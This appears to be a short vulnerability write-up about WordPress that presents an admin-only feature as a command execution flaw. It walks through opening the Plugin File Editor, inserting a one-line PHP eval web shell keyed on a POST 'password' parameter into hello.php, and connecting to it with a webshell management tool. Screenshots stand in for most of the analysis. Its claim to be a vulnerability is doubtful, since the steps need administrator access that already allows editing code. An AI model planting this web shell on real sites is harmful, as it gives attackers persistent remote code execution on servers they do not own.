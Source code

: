 # WordPress Background command execution vulnerability 
## Build the local environment
https://cn.wordpress.org/download/#download-install
## Vulnerability recurrence

/wp-admin/profile.php
![image](https://user-images.githubusercontent.com/45749015/216503131-25f90fa2-17f2-48f5-b52f-579d49ab3c1c.png)

Click >> Tools  >> Plugin File Editor  >>  Change Code hello.php   >>  Add Code `<?php eval(@$_POST['password']);?>` >> Save

![image](https://user-images.githubusercontent.com/45749015/216503630-cbe9baa1-aff5-4dbc-be66-9107e5102a0b.png)
Use the webshell management tool to connect
![image](https://user-images.githubusercontent.com/45749015/216503750-c1decaba-45bf-464d-9b5f-1af9ea720f43.png)
![image](https://user-images.githubusercontent.com/45749015/216503781-51f44f7b-af40-4dbd-8500-f736b217c86c.png)
## code analysis
Get address:
![image](https://user-images.githubusercontent.com/45749015/216503925-9d8f3295-946c-4d5b-b461-b7b0e8c3d94b.png)
The content is not filtered, resulting in the successful saving of illegal programs
![image](https://user-images.githubusercontent.com/45749015/216503967-c5fd373d-3d91-47a1-aaaf-87f931f3bc1e.png)
